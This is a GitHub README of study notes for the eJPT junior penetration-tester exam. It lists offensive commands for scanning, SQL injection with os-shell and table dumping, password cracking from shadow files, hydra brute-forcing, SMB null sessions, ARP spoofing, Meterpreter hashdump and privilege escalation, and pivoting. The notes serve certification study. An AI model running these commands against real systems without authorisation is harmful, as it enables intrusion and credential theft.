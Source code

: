 # eJPT notes
Resources and methodology required to pass eJPT certification. (eLearnSecurity Junior Penetration Tester)




Routing:
- to check ip route : ip route
- To add routing, ip route add <ip>/CIDR via gatewayIP

 <hr />
  

IP and MAC Address:

- ifconfig
- ip addr show [interface]
  
 <hr />

Ping Sweep:

- fping -a -g <ip>/24 2> /dev/null
- nmap -sn -n <ip>/24
 <hr />
  
Nmap Scans needed:

- OS detection: nmap -O -Pn network/CIDR

- Quick Scanning: nmap -sC -sV -T4 network/CIDR

- Full Scanning: nmap -sC -sV -T4 -p- network/CIDR

- UDP Scanning: nmap -sU -sV -T4 network/CIDR

 <hr />
Banner grabbing (HTTP):

- nc -v <machine IP> PORT
- HEAD / HTTP/1.0

 <hr />
Banner grabbing (HTTPS):

- openssl s_client -connect <machine IP>:PORT
- HEAD / HTTP/1.0
- To debug the host, openssl s_client -connect hack.me:443 -debug

- To know the state of the connection, openssl s_client -connect hack.me:443 -state

- no information related to certificate, state or other information but communication with server, openssl s_client -connect hack.me:443 -quiet

 <hr />
  
SQLMAP:

- To check if website is vulnerable to SQLi, sqlmap -u http://<machine IP>:PORT -p parameter

- Check if POST parameter is vulnerable to SQLi, sqlmap -u http://<machine IP>:PORT --data POSTstring -p parameter

- To check if we can get os-shell using SQLmap, sqlmap -u http://<machine IP>:PORT --os-shell

- To dump the tables, sqlmap -u http://<machine IP>:PORT --dump

- Sqlmap cheatsheet i used : https://medium.com/@NikhilPinnamaneni/sqlmap-cheat-sheet-80006296ca2a

 <hr />
  
John:

- unshadow passwd shadow > hashpass
- john --wordlist=/path/to/wordlist.txt -users=user.txt hashpass
  
  <hr />

HYDRA:

- FTP: hydra -l user -P passlist.txt ftp://10.10.181.249


- SSH: hydra -l <username> -P <full path to pass> 10.10.181.249 -t 4 ssh


- Post Webforms: hydra -l <username> -P <wordlist> 10.10.181.249 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

   <hr />
Subdomain Enum:

- To enumerate subdomains, sublist3r -d site.com

   <hr />

Windows Shares using Null Sessions:

- -via nmblookup, nmblookup -A <machine IP>

- List shares using smbclient, smbclient -L //<machine IP> -N

- Mount Shares using smbclient, smbclient //<machine IP>/share -N

- Exploiting Null Sessions using Enum4linux: To check if the remote host is vulnerable to null session, enum4linux -n 192.168.99.162

- To gather info, enum4linux -a <machine IP>

   <hr />
  
ARP Spoofing:

- To enable Port Forwarding, echo 1> /proc/sys/net/ipv4/ip_forward

- Run arpspoof, arpspoof -i [interface] -t <target machine IP> -r <host machine IP>

   <hr />
  
Metasploit:

- Basic commands of metasploit-framework:

- To start metasploit-framework using CLI, msfconsole

- Without banner, msfconsole -q

after starting of MSF, these are the basic commands,
- search x
- use x
- info
- options, show advanced options
- SET X (e.g. set RHOST 10.10.10.10, set payload x)

   <hr />
  
Meterpreter Commands:

- After getting meterpreter shell, we'll can issue some commands which will help us in exploiting the machine,

- background
- sessions -l
- sessions -i N (N is number)
- sysinfo, ifconfig, route, getuid
- getsystem (privesc)
- bypassuac
- download x /root/
- upload x C:\\Windows
- shell
- hashdump
For auto routing, use post/multi/manage/autoroute then set the options {SESSIONS, SUBNET} (will work if meterpreter shell shows that user is root)

Check active route table, route

port forwarding, portfwd add -L <attacker machine IP> -l listening_port -p 80 -r <host machine IP>

 <hr />
  
Spawning a TTY shell:

- python -c 'import pty;pty.spawn("/bin/bash");'

 <hr />
Start python based file server on our own instance:

- python3 -m http.server 80

 <hr />

Gobuster:

- gobuster dir -u http://<ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15

 <hr />
Find:

- find / -iname * (keyword) * 2>/dev/null
 <hr />

PIVOTING: (from meterpreter)


- run autoroute –h

- run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0

- background

- route print

- route add 10.1.1.0 255.255.255.0 1 # where 1 is the session id

- use auxiliary/scanner/portscan/tcp

- In the meterpreter session there is an utility "portfwd" which allows forwarding remote machine port to the local machine port. 

- session -i 1

- portfwd -h


- portfwd add -l 1234 -p 21 -r 192.69.228.3 #where l is local port and p is victims port and r is victim's ip

- portfwd list

- nmap -sV -A -p1234 127.0.0.1

 <hr />

Windows Command Line:



To search for a file starting from current directory;

dir /b/s "*.conf*"
dir /b/s "*.txt*"
dir /b/s "*filename*"


Check routing table:
route print
netstat –r

Check Users:
net users

List drives on the machine:
wmic logicaldisk get Caption,Description,providername

 <hr />
  
**All the Best for your Exam :)**

